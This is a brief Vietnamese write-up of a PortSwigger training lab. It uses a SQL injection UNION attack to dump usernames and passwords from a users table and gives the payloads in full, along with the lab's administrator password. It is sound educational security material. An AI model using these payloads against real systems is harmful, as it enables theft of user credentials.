



# [Lab: SQL injection UNION attack, retrieving data from other tables](https://portswigger.net/web-security/sql-injection/union-attacks/lab-retrieve-data-from-other-tables)

> 
> Yêu cầu: Từ lỗi SQLi khi chọn danh mục sản phẩm tiến hành truy vấn đến bảng `user` có 2 cột `username`,`password` để tìm ra mật khẩu của người dùng `administrator`

---

Giống như các lab trước đó. Mình tìm được tables đang thao tác có 2 cột và cả 2 cột đều có chứa dữ liệu dạng chuỗi qua truy vấn `'+UNION+SELECT+'abc','def'--`:

> 

Tiếp theo đó mình tiến hành truy vấn tới 2 cột trong tables mà lab này yêu cầu `'+UNION+SELECT+username,+password+FROM+users--`:

> 

Và mình tìm được username và password của tài khoản `administrator` là `3mexmt79wfve9lnm59ye`
